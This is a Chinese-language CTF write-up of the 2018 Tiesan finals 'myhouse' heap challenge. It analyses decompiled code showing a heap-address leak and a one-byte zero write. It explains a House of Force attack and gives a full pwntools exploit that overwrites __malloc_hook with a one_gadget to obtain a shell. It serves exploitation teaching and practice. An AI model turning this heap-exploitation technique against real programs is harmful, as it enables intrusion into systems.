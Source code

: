 ```yaml
---
title: 2018铁三总决赛_myhouse
date: 2019-03-21 09:11:24
tags:
---
```

House of Force-
<!--more-->
# Setout
当时想了三四个小时..一直以为是有溢出然后house of force...虽然知道有个一定程度内的任意字节写0但是没用起来...
昨晚看了song师傅给的exp感觉这个利用确实厉害...

知道利用方式后其他比较常规
# Analysis
```python
➜  Desktop checksec myhouse 
[*] '/home/n132/Desktop/myhouse'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
本题主干部分没有什么漏洞.add 一个`room` 往`room`里面写东西
主要是发现写入没大小限制就往house of force方向想了.

主要的问题函数是
```python
unsigned __int64 add_house()
{
  int tmp; // eax
  size_t size; // [rsp+0h] [rbp-30h]
  __int64 v3; // [rsp+8h] [rbp-28h]
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(&s, 0, 0x10uLL);
  myputs("What's your name?");
  read(0, &owner, 0x20uLL);
  myputs("What is the name of your house?");
  house_name = malloc(0x100uLL);
  read(0, house_name, 0x100uLL);
  myputs("What is the size of your house?");
  read(0, &s, 0xFuLL);
  tmp = atoi(&s);
  v3 = tmp;
  size = tmp;
  if ( (unsigned __int64)tmp > 0x300000 )
  {
    do
    {
      myputs("Too large!");
      read(0, &s, 0xFuLL);
      size = atoi(&s);
    }
    while ( size > 0x300000 );
  }
  house_des = malloc(size);
  myputs("Give me its description:");
  read(0, house_des, size - 1);
  *((_BYTE *)house_des + v3 - 1) = 0;
  return __readfsqword(0x28u) ^ v5;
}
```
主要有两点:
* owner 处没有截断导致可能泄露heap`  read(0, &owner, 0x20uLL);`
* `  *((_BYTE *)house_des + v3 - 1) = 0;`这个任意字节写0虽然很好发现但是利用很精妙(当时就是发现了这个感觉不可能用上....orz)

# 利用
主要我利用不起来的原因是我没试过就想当然地认为 我们不知道libc的base导致我们只能影响我们知道的地址(例如bss啥的)但是忽略了当我们mmap时我们不需要知道确切的base我们只要知道偏移就可以改上面的数值.

* 如何控制top_size
```
* 在name中填满`\xff`
* 输入size:x(x>0x30000)
* 再次输入size:y < 0x30000获得chunk Z
* x要求是 Z+x---->main_arena.top
```
这样我们就完成了house of force
* show to leak heap
* malloc to force bss
* modify housed to leak libc_base
* modify room to control __malloc_hook

# exp
```python
from pwn import *
#context.log_level='debug'
def name(c,h):
	p.sendafter("name?\n",c)
	p.sendafter("house?\n",h)
def cmd(c):
	p.sendlineafter("Your choice:\n",str(c))
def add(size,):
	cmd(1)
	p.sendlineafter("room?\n",str(size))
def fill(c):
	cmd(2)
	p.sendlineafter("shining!\n",c)
def show():
	cmd(3)

p=process("./myhouse")
name("A"*0x20,"\xff"*0x100)

p.sendafter("house?\n",str(0x300001-0x3c94f0+11*8-(0x7faf3a51db78-0x7faf3a519b20)+11*8))
#gdb.attach(p,'b *0x000000000400A34')
p.sendafter("arge!\n",str(0x20000))

p.sendlineafter("description:\n",'data')



show()
p.readuntil("A"*0x20)
heap=u64(p.readline()[:-1].ljust(0x8,'\x00'))-0x10


size=-heap+0x6020b0-0x110
add(size)
add(0x80)
fill(p64(0x6020e0)+p64(0x6020c0)+p64(0xffff)+p64(0)+"A"*0x20+p64(0x000000000602048))

show()

p.readuntil("ame:\n")

base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7a91130-0x00007ffff7a0d000)
fill(p64(0x6020e0)+p64(0x000000000602048)+p64(0xffff)+p64(0)+"A"*0x20+p64(0x000000000602048))
fill(p64(base+0x45216))
add(0)
log.warning(hex(heap))
log.warning(hex(base))
#
p.interactive('nier>>')
```
# review 
很经典感觉那个利用像是神来之笔.可以作为house of force的例题.--